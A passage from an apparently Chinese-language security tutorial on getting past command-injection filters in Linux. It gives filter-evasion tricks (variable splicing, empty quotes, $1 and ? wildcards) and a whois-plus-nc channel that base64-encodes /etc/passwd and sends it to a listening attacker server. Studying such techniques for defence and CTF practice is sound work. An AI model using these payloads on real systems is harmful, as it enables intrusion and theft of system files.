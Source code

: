 根据以上几点结合一个：

```bash
t=l; j=s; i=" -al"; $t$j$i
```

![0tkS3R.png](https://s1.ax1x.com/2020/10/05/0tkS3R.png)

### 1.2 利用未被过滤的命令

```php
自己服务器中：nc -lvvp 端口
payload发送给对方：whois -h ip -p 端口 `命令` //``为反引号
//下图以自身服务器的1234端口作演示，实际情况根据个人更改
```

![0tkN2n.png](https://s1.ax1x.com/2020/10/05/0tkN2n.png)

![0tkt8s.png](https://s1.ax1x.com/2020/10/05/0tkt8s.png)

使用whois来执行命令和传输文件

在实际的攻击场景中，可以在自己的攻击服务器上用nc监听一个公网端口，然后在存在命令执行漏洞的网站中发送payload请求，
对它使用whois命令使其命令执行结果返回给nc监听的端口，从而在自己服务器中查看

```bash
传输机：
root@john:~# whois -h 127.0.0.1 -p 4444 `cat /etc/passwd | base64`
接受机：
root@john:/tmp# nc -l -v -p 4444 | sed "s/ //g" | base64 -d
```

### 1.3 linux进阶，符号之间的组合

Linux下，**双引号**和**幂运算符**号都不会影响命令的执行

```bash
whoami
wh$1oami
wh$@oami
who""""ami
whoa$*mi

c$1at /f$1lag
```

在linux中?扮演的角色是匹配任意一个字符，用?来绕过限制

```bash
which whoami //找到whoami路径
# whoami: /usr/bin/whoami /usr/share/man/man1/whoami.1.gz

/u?r/?in/wh?am?

which ifconfig //找到ifconfig
# /sbin/ifconfig
/sbin/if?onfig
```

